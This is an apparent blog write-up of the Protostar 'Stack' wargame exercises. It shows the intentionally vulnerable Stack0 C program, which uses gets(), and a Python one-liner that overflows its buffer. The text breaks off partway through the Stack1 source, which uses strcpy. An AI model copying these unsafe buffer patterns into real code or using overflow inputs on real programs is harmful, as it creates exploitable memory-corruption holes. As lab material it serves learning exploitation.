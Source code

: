 ```yaml
---
layout: post
title:  "Protostar Day One (Stack)"
date:   2020-07-01 01:05:48 +0100
categories: pwn
---
```

Starting this journey I will be following through the excercises found [here](https://exploit-exercises.lains.space/protostar/).

The first of these challenges are Stack0.

## Stack0.c
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
In this challenge there is a vulnerable gets() call that we can exploit to change the variable "modified" to something that is not 0. To do this we can simply run a python command to send in x number of characters to overwrite the buffer and the modified variable.

### Exploit Code
```
python -c "print 'A' * 76 + 'pwn'" | ./stack0
```

## Stack1.c
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
```